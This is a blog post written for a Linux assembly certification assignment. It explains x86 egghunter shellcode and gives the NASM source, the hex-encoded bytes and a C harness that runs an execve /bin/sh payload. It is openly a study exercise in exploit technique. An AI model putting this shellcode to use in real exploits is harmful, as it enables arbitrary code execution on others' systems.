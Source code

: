 ```yaml
---
comments: true
date: 2014-04-09
layout: blog
category: blog
title: 'SLAE Assignment 3: EggHunter Demo'
summary: '3rd assignment of the SLAE'
image: /images/header_images/slaelogo.png
tags: [asm-x86,nasm,slae]
---
```


This is the third of the seven assignment necessary to accomplish the [SecurityTube Linux Assembly Expert](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/index.html) certification. The instructions for this assignment are:

  1. Study about EggHunter
	
  2. Make a working demo
	
  3. Make it configurable for different payload

An EggHunter is a small piece of code that search to a pattern (the egg) into the memory and once the pattern is found the shellcode will be executed. Tipically the egg is wrote twice, this to avoid the problem of finding an identical sequence in some other part of the memory.

The following is a PoC of an EggHunter:
   
	unsigned char egghunter[] = "egghunter shellcode"
	unsigned char shellcode[] = \
	"egg"
	"egg"
	"execve /bin/sh shellcode"

	int main(void){
		run(egghunter);
		return 0;
	}

This is the complete shellcode:

	;Description:	Assignment #3 (EggHunter, 34 bytes)
	;Shellcode:		\xd9\xee\x9b\xd9\x74\x24\xf4\x58\x40\x31\xdb\xb1\x02\x81\x3c\x18\xaa\xbb\xcc\xdd\x75\xf2\x83\xc3\x04\xfe\xc9\x75\xf0\x8d\x40\x08\xff\xe0
	;Author: 		Paolo Stivanin <https://github.com/paolostivanin>
	;SLAE ID:		526

	global _start
	section .text
	_start:
		fldz
		fstenv [esp-0xc]
		pop eax
		lp1:
		inc eax
		xor ebx,ebx
		mov cl,2
		lp2:
		cmp dword [eax+ebx],0xddccbbaa
		jne lp1
		add ebx,4	;the egg must be found twice so i check eax and eax+4
		dec cl		;this is a counter to track how many times the egg has been found
		jnz lp2
		lea eax,[eax+8]	;if the egg has been found then jmp into the shellcode
		jmp eax

In this shellcode I didn't use the jmp-call-pop technique (which is more ids friendly) but instead I used two FPU instructions:

  * `fldz` to push +0.0 onto the FPU register stack
	
  * `fstenv [esp-0xc]` to save the current FPU operating environment at the specified memory location
	
  * and then `pop eax` . Now `eax` contains the address offldz

The following is the graph of the egghunter shellcode flow:

[![graph_assign3]({{ site.baseurl }}/images/2014/04/graph_assign3-1024x601.png)]({{ site.baseurl }}/images/2014/04/graph_assign3.png)

This is the C source file:

	/* Description:	EggHunter(execve(/bin/sh))
	* Author:	Paolo Stivanin <https://github.com/paolostivanin>
	* SLAE ID:	526
	*/

	#include <stdio.h>
	#include <string.h>

	unsigned char eggHunter[] = \
	"\xd9\xee\x9b\xd9\x74\x24\xf4\x58\x40\x31\xdb\xb1\x02\x81\x3c\x18\xaa\xbb\xcc\xdd\x75\xf2\x83\xc3\x04\xfe\xc9\x75\xf0\x8d\x40\x08\xff\xe0";

	unsigned char execveShellcode[] = \
	"\xaa\xbb\xcc\xdd" //egg
	"\xaa\xbb\xcc\xdd" //egg
	"\xeb\x25\x5e\x89\xf7\x31\xc0\x50\x89\xe2\x50\x83\xc4\x03\x8d\x76\x04\x33\x06\x50\x31\xc0\x33\x07\x50\x89\xe3\x31\xc0\x50\x8d\x3b\x57\x89\xe1\xb0\x0b\xcd\x80\xe8\xd6\xff\xff\xff\x2f\x2f\x62\x69\x6e\x2f\x73\x68";

	int main(void){
		printf("EggHunter: %zu\n", strlen(eggHunter));
		printf("Shellcode: %zu\n", strlen(execveShellcode));
		int (*ret)() = (int(*)())eggHunter;
		ret();
		return 0;
	}

and the following is the result of the above snippet:

[![assign3]({{ site.baseurl }}/images/2014/04/assign3-1024x552.png)]({{ site.baseurl }}/images/2014/04/assign3.png)

All the sources can be found in my [Github page](https://github.com/paolostivanin/SLAE/).


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: [http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)


**Student ID: SLAE-526**
